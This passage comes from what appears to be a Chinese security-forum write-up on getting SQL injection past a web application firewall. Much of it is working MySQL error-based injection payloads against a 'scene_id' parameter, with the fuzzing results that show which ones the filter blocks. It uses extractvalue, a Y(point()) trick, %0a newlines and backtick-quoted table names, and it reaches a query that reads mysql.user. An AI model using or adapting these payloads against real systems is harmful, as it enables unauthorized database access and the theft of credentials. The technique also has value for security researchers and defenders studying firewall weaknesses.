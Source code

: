 最终绕过的payload如下:

```php
scene_id=1' and  Y(point(56.7, 53.34)) and extractvalue(0,concat%0a(0x7e,database()))%23
```

可能很多小伙伴就在想，是不是%0a起到的作用啊，根本不需要fuzz出Y函数来进行绕过呀，很简单证明这个。

`scene_id=1' %0a and extractvalue(0,concat%0a(0x7e,database()))%23` WAF拦截

`scene_id=1' and %0a extractvalue(0,concat%0a(0x7e,database()))%23` WAF拦截

所以这里Y函数和换行符号的组合是绕过WAF必不可少的的，两者需要搭配起来，再者换行符由于正则匹配，单行匹配的的特性，在绕过waf的时候相当好用。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-1fe8b4de487ecb50f0f059eb98e38956029b7010.png)

### 0x2.2 无限制注入

 对于MYSQL来说，特别是8.0以下的版本来说，无限制的注入的定义可以分为两个点:

- 1.常规的WAF绕过目标: 执行select \* from 语句，实现任意表子查询
- 2.实战利用目标，访问到information\_schema数据库，从而完整获取数据库内容

Fuzz 1:

`scene_id=1' and  Y(point(56.7, 53.34)) and extractvalue(0,concat%0a(0x7e,(select from xx)))%23`

通过尝试直接修改插入语句，虽然本来就是语法错误的，但是waf还是直接拦截了，说明应该是`select from xxx`这个格式触发了WAF

继续Fuzz:

`scene_id=1' and  Y(point(56.7, 53.34)) and extractvalue(0,concat%0a(0x7e,(select from xx)))%23` 拦截

`scene_id=1' and  Y(point(56.7, 53.34)) and extractvalue(0,concat%0a(0x7e,(select%0afrom xx)))%23` 拦截

尝试在`select from`中间下功夫，可以绕过waf，这里一定要注意要紧挨着，表名`user`用反引号括起来即可绕过。

```php
1' and  Y(point(56.7, 53.34)) and extractvalue(0,concat%0a(0x7e,(select`user`from%0amysql.user)))%23
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-db28f6939187c2869fdd43425dd3a22b76270dfd.png)

Fuzz 2:

原本我以为绕过第一层Fuzz 1后面会很顺利，但是WAF智能学习得到的特征多的有点出乎意外，竟然对table\_name和select认定为了固定的组合，进行了拦截。

```php
# 只要匹配到select table_name 的格式就会拦截
scene_id=1' and  Y(point(56.7, 53.34)) and extractvalue(0,concat%0a(0x7e,(select`table_name`from xxx)))%23

# 打乱table_name 就不会拦截
scene_id=1' and  Y(point(56.7, 53.34)) and extractvalue(0,concat%0a(0x7e,(select`tab1le_name`from xxx)))%23
```

尝试构造语句打破拦截:
